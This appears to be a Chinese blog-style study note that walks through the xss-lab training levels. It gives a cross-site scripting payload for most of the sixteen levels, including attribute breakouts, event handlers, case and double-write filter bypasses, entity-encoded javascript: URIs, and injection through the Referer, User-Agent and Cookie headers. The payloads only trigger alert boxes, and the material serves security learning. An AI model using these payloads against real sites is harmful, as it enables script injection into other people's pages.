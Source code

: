 ```yaml
---

layout: post
title: xss漏洞总结
subtitle: xss
date: 2021-3-8
author: mr_king
header-img: img/backimg/bd_17.jpg
catalog: true
tags: 
    -web
    -xss
    -学习笔记
---
```




# XSS漏洞总结

## 常见的弹窗方式



## xss-lab通关记录

**less-1**

```js
<script>alert('1')</script>
```

**less-2**

因为插入代码在value值中，闭合value标签，达到弹窗

```js
"><script>alert('1')</script>"
```

**less-3**

\<input\>标签的一些特殊事件来执行js代码

```js
'onfocus=javascript:alert('1') >
'onfocus=javascript:alert('xss') >
```

**less-4**

和less-3相同

```js
" onfocus=javascript:alert('xss') >
```

**less-5**

在script中加入下划线导致代码无法执行，

```js
"><a href=javascript:alert('1')>1xss</a>
```

**less-6**

双写，大写绕过

```js
"><a HREF=javascript:alert('1')>a</a>
```

**less-7**

双写绕过，过滤了script

```js
"><scrscriptipt>alert('1')</scrscriptipt>
```

**less-8**

编码绕过…… HTML编码 >> 照例解析 >> 输出HTML代码(我们输入的HTML编码 输出的则是代码，HTML实体编码在HTML页面会被解析而在后端看不到)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   

javascript:alert(/xss/)

```js
&#x6a;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3a;&#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x2f;&#x78;&#x73;&#x73;&#x2f;&#x29;
```

**less-9**检测是否有http://头

javascript:alert('http://')

```js
&#x6A;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3A;&#x61;&#x6C;&#x65;&#x72;&#x74;&#x28;'http://'&#x29;
```

**less-10**

`keyword`值被HTML实体编码了

关注三个被隐藏的input标签：`?keyword=test&t_link=test&t_history&t_sort=test`

只有`t_sort`这个参数有了效果，构造：

```js
" onclick=alert(/xss/) type="text" ><
```

**less-11**

?keyword=test&t_link=test&t_history&t_sort=test
t_sort`被HTML实体编码，双引号闭合，没戏了！换一个思路`t_ref`的参数值是请求包中的`Referer

```js
" onclick=alert(/1/) type="text><
```

**less-12**

User-Agent

```js
"type="text" onclick="alert('xss')
```

**less-13**

**Cookie**

```js
"type="text" onclick="alert('xss')
```

**less-14**

```js

```

**less-15**

```js
?src='level1.php?name=<img src=1 onerror=alert(1)>'
```

**less-16**

```js
<img%0asrc=”111”%0aonerror=alert(‘xss’)%0a>
```







